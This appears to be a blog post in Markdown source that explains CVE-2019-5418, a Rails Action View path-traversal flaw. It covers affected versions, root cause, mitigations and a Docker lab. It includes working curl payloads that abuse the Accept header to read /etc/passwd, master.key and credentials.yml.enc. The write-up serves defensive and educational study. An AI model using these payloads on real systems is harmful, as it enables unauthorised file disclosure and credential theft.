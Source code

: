 ```yaml
---
layout: post
title:  "CVE-2019-5418"
summary: "File Content Disclosure in Action View"
date: 2020-08-09 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

[First published](https://nvd.nist.gov/vuln/detail/CVE-2019-5418) on 27 March 2019

# File Content Disclosure in Action View

## tl;dr
If you render files without templates in your controllers on affected versions of Rails, it is possible for attackers to read arbitrary files on your file system. From there, bad things happen.
{: .critical }

<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        6.0.0.beta3<br/>
        5.2.2.1<br/>
        5.1.6.2<br/>
        5.0.7.2<br/>
        4.2.11.1
      </td>
    </tr>
  </tbody>
</table>

<script id="asciicast-tXa4JVGSyoeb1CFDacdHODWub" src="https://asciinema.org/a/tXa4JVGSyoeb1CFDacdHODWub.js" async></script>

## Weakness

This vulnerability lets an attacker [traverse directory paths](http://cwe.mitre.org/data/definitions/22.html) which can then lead to the [exposure of sensitive information](http://cwe.mitre.org/data/definitions/200.html).

## Vulnerability

Specially crafted `Accept` request headers in combination with a call to endpoints that `render file:` can be used to traverse directory paths and expose sensitive information.

A vulnerable controller will look something like this:

```ruby
class UserController < ApplicationController
  def index
    render file: "#{Rails.root}/some/file"
  end
end
```

The attacking request will look something like this:

{% highlight bash %}
{% raw %}
curl -H 'Accept: ../../../../../../../../etc/passwd{{' http://target/users
{% endraw %}
{% endhighlight %}

Since the target endpoint controller renders files without a specified accept format, then the contents of the file `/etc/passwd` can be read.

## Breakdown

The `ActionView::TemplateRenderer` class will try to resolve a path, that is based on the formats requested in the `Accept` header.[^fn-render]

The attack exploits code in the `ActionView::PathResolver` class, in particular, the way in which template paths are queried in the [find_template_paths](https://github.com/rails/rails/blob/v5.2.1/actionview/lib/action_view/template/resolver.rb#L246-L252) method.

```ruby
def find_template_paths(query)
  Dir[query].uniq.reject do |filename|
    File.directory?(filename) ||
      # deals with case-insensitive file systems.
      !File.fnmatch(query, filename, File::FNM_EXTGLOB)
  end
end
```

Objects of class `Dir` are directory streams, representing directories in the underlying file system. `Dir[query]` is equivalent to calling `Dir.glob([string,...], 0)` which will return an array of matching directories.

The pattern passed to the `glob` method looks like a regexp but is more like a shell glob. The attacker takes advantage of this by passing in a pattern that looks like this:

{% highlight shell %}
{% raw %}
../../../../../../../../etc/passwd{{
{% endraw %}
{% endhighlight %}

So instead of a glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.html,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The addition of the `Accept` header will glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.../../../../../../etc/password{{,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The double `{` is enough to make this a valid pattern. The `../` pattern goes up one directory from wherever the code is called, and repeating them enough times, gets you back to root, high enough to then read in something like `/etc/passwd`. The contents of that file are then cached and rendered back to the user.

The attacker can do more damage though, by reading sensitive files, such as those used by the Rails credentials API. These files typically live in the `#{Rails.root}/config/` directory, and the attacker can use a pattern that looks like this to read them:

{% highlight shell %}
{% raw %}
../../../../../../**/config/master.key{{
{% endraw %}
{% endhighlight %}

The inclusion of a `**` pattern will match directories recursively (without needing to guess the directory layout), and the `config/master.key` pattern should find the `master.key` in the target Rails config directory. If the attacker retrieves that key along with `credentials.yml.enc` from the same directory, they will be able to decrypt and use related credentials in chained attacks.

Of note though, the contents are cached[^fn-cached] so an attacker will need to make multiple requests to different servers or wait for your server to be redeployed with a cold cache. It's also possible to fork a race condition with something like this to retrieve both files:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' \
  http://localhost:3000/users/index & \
curl -H 'Accept: ../../../../../../**/config/credentials.yml.enc{{' \
  http://localhost:3000/users/index
{% endraw %}
{% endhighlight %}

## Fix

<mark>The best fix for this, is to upgrade Rails to one of the patched versions.</mark>

The vulnerability can be mitigated by making sure you render files with a fixed format:

```ruby
render file: "#{Rails.root}/some/file", formats: [:html]
```
You can also monkey patch `ActionDispatch` via your own initializer, which is similar to what the [patched versions](https://github.com/rails/rails/blob/fbe2433be6e052a1acac63c7faf287c52ed3c5ba/actionpack/lib/action_dispatch/http/mime_negotiation.rb#L83-L85) of the `MimeNegotiation` module do to prevent a string containing traverse patterns being accepted in the first place:

```ruby
ActionDispatch::Request.prepend(Module.new do
  def formats
    super().select do |format|
      format.symbol || format.ref == "*/*"
    end
  end
end)
```

In general, it's best to upgrade to a patched version of Rails before monkey patching this yourself. The latter is easily forgotten over time and can cause you all sorts of headaches in future.

# Research

You can re-create this with a [canned CVE environment](https://github.com/correkthorse/rails-cve-testing) using Docker. To build the vulnerable image:

    CVE=CVE-2019-5418 RAILS_VERSION=5.2.1 make build

Then to run it locally, for testing:

    CVE=CVE-2019-5418 make server

Then target it:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' http://localhost:3000/users/index
flag{master}
{% endraw %}
{% endhighlight %}

# References

[^fn-render]: [Analysis for CVE-2019-5418 File Content Disclosure on Rails ](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/)
[^fn-cached]: [CVE-2019–5418: on WAF bypass and caching](https://blog.pentesterlab.com/cve-2019-5418-on-waf-bypass-and-caching-10e93f9a1981)
